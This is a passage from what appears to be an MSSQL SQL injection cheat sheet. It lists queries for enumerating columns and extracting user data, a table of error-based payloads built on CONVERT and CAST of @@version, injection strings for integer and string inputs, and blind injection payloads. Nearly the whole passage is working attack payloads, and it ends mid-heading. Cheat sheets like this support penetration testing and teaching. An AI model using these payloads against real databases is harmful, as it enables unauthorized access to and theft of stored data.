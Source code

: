 * Extract columns for the table Users

    ```sql
    $ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
    [*] UserId
    [*] UserName
    ```

* Finally extract the data

    ```sql
    $ SELECT  UserId, UserName from Users
    ```


## MSSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| CONVERT      | `AND 1337=CONVERT(INT,(SELECT '~'+(SELECT @@version)+'~')) -- -` |
| IN           | `AND 1337 IN (SELECT ('~'+(SELECT @@version)+'~')) -- -` |
| EQUAL        | `AND 1337=CONCAT('~',(SELECT @@version),'~') -- -` |
| CAST         | `CAST((SELECT @@version) AS INT)` |

* For integer inputs

    ```sql
    convert(int,@@version)
    cast((SELECT @@version) as int)
    ```

* For string inputs

    ```sql
    ' + convert(int,@@version) + '
    ' + cast((SELECT @@version) as int) + '
    ```


## MSSQL Blind Based

```sql
AND LEN(SELECT TOP 1 username FROM tblusers)=5 ; -- -
```

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'
WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```


### MSSQL Blind With Substring Equivalent
